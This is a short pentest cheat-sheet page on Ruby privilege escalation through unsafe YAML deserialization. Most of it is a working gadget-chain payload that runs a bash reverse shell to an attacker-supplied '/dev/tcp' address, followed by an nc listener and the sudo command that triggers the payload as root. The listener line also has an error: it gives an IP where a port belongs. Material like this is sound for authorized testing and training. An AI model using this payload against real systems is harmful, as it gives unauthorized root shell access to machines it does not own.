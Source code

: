```yaml
---
title: Ruby Privilege Escalation
description: Ruby is an interpreted, high-level, general-purpose programming language.
tags:
    - Privilege Escalation
    - Reverse Shell
refs:
date: 2023-03-28
draft: false
---
```


## Remote Code Execution with YAML

Check if the current user could run the ruby script as root privilege.

```txt
(root) NOPASSWD: /usr/bin/ruby sample.rb
```

If the sample.rb contains the “File.read(’sample.yml’)”, modify the YAML file as follow:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"
         method_id: :resolve
```

Then start listener in local machine.

```sh
nc -lvnp <local-ip>
```

Now run the sudo command.

```sh
sudo /usr/bin/ruby sample.rb
```